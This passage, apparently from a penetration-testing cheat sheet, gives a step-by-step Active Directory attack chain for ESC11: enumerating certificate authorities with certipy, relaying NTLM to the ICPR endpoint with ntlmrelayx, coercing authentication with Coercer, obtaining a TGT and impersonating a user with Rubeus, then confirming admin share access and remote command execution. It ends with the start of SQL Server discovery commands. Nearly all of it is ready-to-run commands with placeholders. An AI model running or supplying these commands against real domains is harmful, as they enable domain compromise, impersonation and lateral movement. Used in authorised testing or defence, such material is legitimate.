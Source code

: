 ````
winrs -r:<TARGET FQDN> whoami
```

### ESC11 NTLM Relay to AD CS ICPR Endpoints
- Relay RPC interface which supports NTLM auth. ICertPassage Remote Protocol can be used to request certificates
- If the `IF_ENFORCEENCRYPTICERTREQUEST` flag is set relaying using RPC will not be possible. Flag by default on Windows server 2012 and higher!

#### Enumerate CES Enrollment Endpoints
- Check for `Enforce Encryption for Requests : Disabled` on the Certificate Authorities (Not the template!)
- Requires specific fork of certipy https://github.com/sploutchy/Certipy
```
certipy find -u <USER>@<FQDN DOMAIN> -p <PASSWORD> -dc-ip <DC IP> -stdout
```

#### Start NTLMRelay
- Requires specific fork of impacket https://github.com/sploutchy/impacket
```
python3 ntlmrelayx.py -t rpc://<FQDN CA> -smb2support --adcs --template DomainControllerAuthentication -rpc-mode ICPR -icpr-ca-name "<CA NAME>"
```

#### Force coerce
```
python3 Coercer.py coerce -l <KALI IP> -t <TARGET IP> -u <USER> -p <PASSWORD> -d <DOMAIN> -v --filter-method-name "EfsRpcDuplicateEncryptionInfoFile"
```

#### Request TGT
```
.\Rubeus.exe asktgt /user:<COMPUTER ACCOUNT>$ /domain:<FQDN DOMAIN> /dc:<FQDN DC> /outfile:esc11.kirbi /certificate:<BASE64 CERT>
```

#### Execute S4USelf
```
.\Rubeus.exe s4u /self /impersonateuser:<USER> /altservice:cifs/<FQDN COMPUTER> /dc:<FQDN DC> /user:<COMPUTER ACCOUNT>$ /ticket:esc8.kirbi /ptt
```

#### Check access
```
dir \\<TARGET FQDN>\c$
winrs -r:<TARGET FQDN> whoami
```

## SQL Server
- Could be possible cross domain or cross forest!
```
. .\PowerUpSQL.ps1
```
 
#### Find possible SQL admins or groups that have access to SQL
```
Get-DomainGroup | Where-Object -Property samaccountname -Match SQL
MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p
```
 
### Locating and accessing SQL Servers
#### Discovery of SQL instances (SPN scanning)
```
Get-SQLInstanceDomain
 
````